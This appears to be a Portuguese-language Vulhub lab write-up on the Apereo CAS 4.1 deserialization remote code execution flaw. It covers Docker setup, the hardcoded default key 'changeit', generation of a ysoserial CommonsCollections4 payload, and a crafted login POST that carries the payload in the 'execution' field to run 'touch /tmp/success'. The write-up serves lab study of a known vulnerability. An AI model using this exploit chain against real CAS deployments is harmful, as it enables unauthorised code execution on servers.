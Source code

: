 # Apereo CAS 4.1 Deserialization RCE Vulnerability

Apereo CAS é um sistema de logon único empresarial. Há um problema nas tentativas do CAS de desserializar objetos por meio da biblioteca Apache Commons Collections, o que causou uma vulnerabilidade RCE.

Referência:

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## Configuração do ambiente

Execute os seguintes comandos para iniciar um Apereo CAS 4.1.5：

```
docker-compose up -d
```

Depois que o Apereo CAS for iniciado, visite `http://your-ip:8080/cas/login` para ver a página de login.

## Explorando

A configuração padrão pronta para uso do Apereo CAS antes de 4.1.7, está usando uma chave secreta padrão `changeit`:

```java
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

Podemos tentar usar [Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack) para gerar um [ysoserial](https://github.com/frohoff/ysoserial) criptografado' s objeto serializado:

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

![](1.png)

Em seguida, intercepte e modifique a solicitação http da ação de login de `/cas/login`, coloque o payload no valor de `execution`:

```
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```

![](2.png)

Parabéns, `touch /tmp/success` foi executado com sucesso:

![](3.png)
